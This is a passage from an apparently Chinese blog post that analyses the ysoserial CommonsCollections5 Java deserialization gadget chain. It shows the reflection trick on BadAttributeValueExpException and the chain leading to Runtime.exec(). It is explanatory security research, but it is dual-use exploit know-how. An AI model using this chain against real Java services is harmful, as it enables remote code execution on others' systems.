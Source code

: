 ```java
            e.printStackTrace();
        }
    }
}
```
需要注意的是，在声明BadAttributeValueExpException对象时，并没有直接传入entry参数，而是用反射赋值。
```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(entry);
Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException, entry);
```
因为BadAttributeValueExpException的构造函数就会判断是否为空，如果不为空在序列化时就会执行toString()，那么反序列化时，因为传入的entry已经是字符串，所以就不会触发toString方法了。
```java
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
```
![20200119192839](https://y4er.com/img/uploads/20200119192839.png)

# 总结
这里抄一下ysoserial的 `Gadget chain`
```java
/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
	Requires:
		commons-collections
 */
```
个人觉得这个洞最经典的地方还是在`InvokerTransformer`的rce构造，着实考验对反射的理解和运用。

参考链接：
- https://www.xmanblog.net/java-deserialize-apache-commons-collections/
- https://www.freebuf.com/vuls/175252.html
- https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**